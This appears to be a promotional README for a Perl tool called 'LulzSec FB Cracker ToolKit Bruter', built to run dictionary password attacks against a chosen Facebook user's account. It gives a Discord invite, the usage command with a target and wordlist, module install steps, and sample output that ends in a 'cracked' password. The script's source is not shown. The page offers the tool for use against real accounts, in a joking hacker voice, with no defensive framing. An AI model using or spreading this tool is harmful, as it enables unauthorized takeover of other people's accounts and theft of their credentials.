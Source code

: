 
Join us for more tools : https://discord.gg/UUs8eb

Description:

LulzSec FB Cracker ToolKit Bruter V0.1 tool written in perl to perform a dictionary-based attack on a specific Facebook user
through HTTPS.
 This tool coded Only For The Lulz ;)
 
 Usage:
 perl LulzFBKill.pl email/id wordlist ;
 
 login could be either a users email address or profile name / Phone number / ID.
 

 #Module Requirements:
 # apt clean
 # apt update
 Install module if missing:
 # perl -MCPAN -e 'install Net::SSLeay'


 [+] Lulz Start Cracking THF-Targe using ID or EMail or Phone numnber ...

 [-] test -> Failed >> Check Your password List and Try agine
 [-] test123 -> Failed >> Check Your password List and Try agine
 [-] testtest -> Failed >> Check Your password List and Try agine
 [-] testest123 -> Failed >> Check Your password List and Try agine
 [-] qwerty -> Failed >> Check Your password List and Try agine
 [-] azerty -> Failed >> Check Your password List and Try agine
 [-] password -> Failed >> Check Your password List and Try agine
 [-] password123 -> Failed >> Check Your password List and Try agine
 

 [+] Luulz!! Pass Cracked => Pass is Lu!z53C

